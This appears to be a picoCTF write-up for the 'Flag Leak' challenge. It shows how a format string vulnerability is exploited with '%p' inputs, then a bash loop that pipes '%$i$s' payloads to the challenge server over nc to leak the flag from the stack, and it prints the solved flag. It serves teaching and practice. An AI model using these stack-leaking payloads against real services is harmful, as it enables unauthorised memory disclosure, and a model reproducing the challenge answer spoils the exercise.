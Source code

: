 # Flag Leak 

## Challenge
*Story telling class 1/2*
*I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using:*
*nc saturn.picoctf.net 50926* 

## Thought Process
First Step was to examine the files provided starting off with the vuln.c
After examining it was pretty clear that the program contained a format string vulnerability.

To exploit a format string vulnerability, I gave `%p%p%p%p%p%p%p%p%p%p%p%p` as an input to which i got a hex encoded - scrambled flag like response :
```bash
randoduck@DESKTOP-2PM3SNS:~$ nc saturn.picoctf.net 50926
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p
Here's a story -
0xffcbc2200xffcbc2400x80493460x702570250x702570250x702570250x702570250x702570250x70257025 # *ocip{FTCk43L_gn1g4lFff0_4tS_1_kc2a125}* 
```
Since this isn't quite it , I tried using `gdb` to set return and break addresses to find out the location of *readflag* on the stack. This attempt of mine was unsuccessful as it kept showing errors regarding the file executables. After further research I came across this method of brute forcing and leaking values off the stack using different type of format strings . Now the way the brute forcing would work is by printing out the values in consecutive memory location in a stack . This repeated execution can be replicated using `for loop ` in bash .

#### Explanation of Each Component:

- **for i in {0..999}**
This is a Bash loop that iterates through numbers from 0 to 999.
The variable i takes each value in this range during each iteration.

- **do ... done:**
This defines the block of code to execute during each iteration of the loop.

- **echo "%$i\$s":**
echo: Prints the string to the terminal or pipes it to the next command.

- **"%$i\$s":**
%$i\$s:
%: A format specifier .
$i: The current value of i in the loop, replaced on each iteration.

\$: The \ escapes the dollar sign $ so it is treated as a literal character in the string.

s: part of a formatted string, intended for a format string vulnerability.

```bash
randoduck@DESKTOP-2PM3SNS:~$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 59213 ; done                                               
Tell me a story and then I'll tell you one >> Here's a story -                                                                                       %0$s                                                                                                                                                 Tell me a story and then I'll tell you one >> Here's a story -                                                                                       %1$s                                                                                                                                                 Tell me a story and then I'll tell you one >> Here's a story -                                                                                       A                                                                                                                                                   Tell me a story and then I'll tell you one >> Here's a story
picoCTF{L34k1ng_Fl4g_0ff_St4ck_ 
```
After several in the end we come across what uncannily ressembles a flag so we stop the process and take a look . I noticed that this particular flag was correct but nevertheless not complete.

## Solution 
 I realised this demanded a more targeted approach and hence used the `grep` command in my next iteration . The changes made were :
- **grep:** used to search for patterns in text.
It reads input (from a file or standard input) and outputs lines that match the specified pattern.
- **E:** Enables Extended Regular Expressions (ERE) in the pattern.
With -E, you can use additional regex features like parentheses () for grouping and | for alternation without needing to escape them.
- **i:**
Makes the search case-insensitive.
For example, it treats "PICO", "pico", "CtF", "CTF", etc., as equivalent matches.
- **'(pico|ctf)':**
pico: Matches any occurrence of "pico" (case-insensitively).
|: Means "OR" in regex.
ctf: Matches any occurrence of "ctf" (case-insensitively).

```bash 
randoduck@DESKTOP-2PM3SNS:~$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 59213 | grep -Ei '(pico|ctf)'; done              CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}     
```
piecing it up we get the flag as : *picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}*

## <3
